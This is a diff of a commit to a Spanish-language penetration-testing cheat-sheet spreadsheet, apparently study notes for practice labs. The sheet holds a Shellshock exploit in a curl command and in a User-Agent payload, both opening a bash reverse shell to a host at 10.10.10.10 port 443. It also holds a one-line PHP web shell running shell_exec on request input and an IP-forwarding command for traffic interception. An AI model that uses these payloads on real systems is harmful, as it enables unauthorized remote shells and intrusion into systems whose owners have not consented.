

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Interceptadores & Web, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no cell formats; removed rows and columns are numbered as before the commit, all else as after; rows hold the shown columns only; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet Interceptadores & Web)
+++ b/CheatSheet.xlsm (sheet Interceptadores & Web)
-J30 (WIRESHARK): curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/443 0>&1'" http://IPvictima/cgi-bin/recurso_vulnerable
+J30 (WIRESHARK): echo "1" > /proc/sys/net/ipv4/ip_forward
-K30: Explotacion shellshock
+K30: Para reenviar los paquetes
-L30: (empty)
+L30: Si no se estrellarian contra nosotros
-J32 (WIRESHARK): (empty)
+J32 (WIRESHARK): SHELLSHOCK
+J32:L32 merged
-row 33:  | python3 -m http.server 8000 -d /opt | Para elegir la ruta donde se monta
+row 33:  | python3 -m http.server 8000 -d /opt | Para elegir la ruta donde se monta |  |  |  |  |  | Comando | Descripcion | Anotaciones
-J34 (WIRESHARK): (empty)
+J34 (WIRESHARK): hackersclub.academy/hca.iso
-K34: (empty)
+K34: Mini ISO Tiny Core para practicar ShellShock
-J35 (WIRESHARK): (empty)
+J35 (WIRESHARK): User-Agent: () { :; }; bash -i >& /dev/tcp/10.10.10.10/443 0>&1
-K35: (empty)
+K35: Ejemplo de ShellShock en el useragent con shell reversa
-row 36:  |  |  | echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
+row 36:  |  |  | echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; |  |  |  |  | curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/443 0>&1'" http://IPvictima/cgi-bin/recurso_vulnerable | Explotacion shellshock
```
Also changed, not shown: 26 edited cells and merged cells elsewhere in this sheet, sheet General, sheet Explotacion & Post-Explotacion, sheet Enumeracion & Escaneos, cell formats.
